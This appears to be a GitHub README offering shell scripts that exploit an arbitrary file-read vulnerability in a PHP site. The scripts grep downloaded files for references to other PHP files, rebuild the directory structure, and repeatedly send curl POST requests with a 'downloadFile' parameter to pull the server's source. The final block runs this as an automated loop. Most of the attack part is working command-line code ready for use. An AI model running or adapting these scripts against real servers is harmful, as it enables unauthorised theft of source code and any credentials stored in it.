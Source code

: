 # Extract PHP files

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/c67fc7ed-2727-44c5-9425-e8ab4dc93d93"><br>

You have discovered a vulnerability that enables you to read internal server files, similar to the `readfile($input)` function in PHP.

You dump the sitemap of your Burp Suite, and then filter all the `.php` files to download them.

However, be aware that these files might also include or reference other `.php` files in various ways, such as through `include`, `require`, `href`, `form action`, `require_once`, comments, etc.

Searching for these references one by one is not the most efficient and can become tedious. In this context, regular expressions (regex) prove to be incredibly useful.


## Example<br>

Currently, you possess knowledge of the files `index.php`, `auth.php`, and `redirect.php` which were extracted from the Burp Suite sitemap.

However, it's crucial to note that these files also reference unknown internal files in various ways, utilizing functions like `include()`, `require_once()`, `Location`, `form action`, and more.

Thankfully, by employing regular expressions (regex), you can easily extract all the referenced files and uncover further insights.

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/99b04175-bc22-498c-a63f-a0a566014358"><br>

## Steps
1. Extract all the referenced files.
2. Extract all the directories and create them on your local machine.
3. Download all the files using the wordlist "_php-files."
4. Continuously searching for more referenced .php files, until there are no more .php files left to download.
   
Note: You will see that you will have no more php files to download when the "_php-verify" file is empty or with garbage


```sh
# 1°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files

# 2°
for _dir in $(cat _php-files);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"

# 3°
for _file in $(cat _php-files);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done

# 4°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files
rm _php-verify; for _file in $(cat _php-files);do find * | grep -w "$_file" || printf "\n$_file" >> _php-verify ; done
rm _php-check; for _dir in $(grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | grep -wEv "_php-files|_php-verify" | awk -F'.php:' '{print $1}' | xargs -I@ sh -c "dirname @" 2>&- | sort -u); for _file in $(cat _php-verify);do printf "\n$_dir/$_file"; done | sort -u >> _php-check
for _dir in $(sort -u _php-check);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"
for _file in $(sort -u _php-check);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done

# Automation (replace the curl command)
while :;do
	printf "\n[*] Press CTRL^c to stop the program [*]\n"
	printf "\n# _php-verify file content's #\n\t%s\n\n" $(cat _php-verify)
	grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files
	rm _php-verify; for _file in $(cat _php-files);do find * | grep -w "$_file" || printf "\n$_file" >> _php-verify ; done
	rm _php-check; for _dir in $(grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | grep -wEv "_php-files|_php-verify" | awk -F'.php:' '{print $1}' | xargs -I@ sh -c "dirname @" 2>&- | sort -u); for _file in $(cat _php-verify);do printf "\n$_dir/$_file"; done | sort -u >> _php-check
	for _dir in $(sort -u _php-check);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"
	for _file in $(sort -u _php-check);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done
done
```
